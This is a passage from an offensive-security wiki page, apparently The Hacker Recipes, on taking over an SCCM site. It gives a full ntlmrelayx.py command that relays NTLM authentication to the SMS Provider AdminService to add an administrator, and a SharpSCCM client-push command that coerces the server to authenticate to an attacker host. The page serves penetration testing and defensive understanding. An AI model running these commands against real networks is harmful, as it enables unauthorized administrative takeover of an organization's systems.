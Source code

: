 1. Setup an NTLM relay server

The target of the [NTLM relay attack](ntlm/relay.md) must be set to the SMS Provider server, on the HTTP/S service (port `80/tcp` or `443/tcp`).

{% tabs %}
{% tab title="UNIX-like" %}
From UNIX-like systems, [this PR](https://github.com/fortra/impacket/pull/1593) on [Impacket](https://github.com/fortra/impacket)'s [ntlmrelayx.py](https://github.com/fortra/impacket/blob/master/examples/ntlmrelayx.py) (Python) script can be used for that purpose.

```bash
ntlmrelayx.py -t https://smsprovider.domain.local/AdminService/wmi/SMS_Admin -smb2support --adminservice --logonname "DOMAIN\USER" --displayname "DOMAIN\USER" --objectsid <USER_SID>
```
{% endtab %}

{% tab title="Windows" %}
From Windows systems, [Inveigh-Relay](https://github.com/Kevin-Robertson/Inveigh) (Powershell) can be used as an alternative to [Impacket](https://github.com/fortra/impacket)'s [ntlmrelayx.py](https://github.com/fortra/impacket/blob/master/examples/ntlmrelayx.py), however it doesn't feature the same functionalities regarding this specific target, need in the steps detailed below, meaning the exploitation from Windows system will need to be adapted.
{% endtab %}
{% endtabs %}

Fore more insight on NTLM relay attacks and tools options, see the corresponding page on The Hacker Recipes: [NTLM Relay](ntlm/relay.md).

2. Authentication coercion

The primary site server's authentication can be coerced via automatic client push installation targeting the relay server with [SharpSCCM](https://github.com/Mayyhem/SharpSCCM) (C#). For more information, see the corresponding article "[Coercing NTLM authentication from SCCM](https://posts.specterops.io/coercing-ntlm-authentication-from-sccm-e6e23ea8260a)" by [Chris Thompson](https://mobile.twitter.com/\_mayyhem). Alternatively, the server's authentication could be coerced with other, more common, coercion techniques ([PrinterBug](print-spooler-service/printerbug.md), [PetitPotam](mitm-and-coerced-authentications/ms-efsr.md), [ShadowCoerce](mitm-and-coerced-authentications/ms-fsrvp.md), [DFSCoerce](mitm-and-coerced-authentications/ms-dfsnm.md), etc.).

{% tabs %}
{% tab title="UNIX-like" %}
From UNIX-like systems, authentication can be coerced through [PrinterBug](print-spooler-service/printerbug.md), [PetitPotam](mitm-and-coerced-authentications/ms-efsr.md), [ShadowCoerce](mitm-and-coerced-authentications/ms-fsrvp.md), [DFSCoerce](mitm-and-coerced-authentications/ms-dfsnm.md), etc. (not based on triggering the client push installation).

There isn't any UNIX-like alternative to the `SharpSCCM.exe invoke client-push` feature (yet).
{% endtab %}

{% tab title="Windows" %}
```powershell
SharpSCCM.exe invoke client-push -mp "SCCM-Server" -sc "<site_code>" -t "attacker.domain.local"
```
{% endtab %}
{% endtabs %}
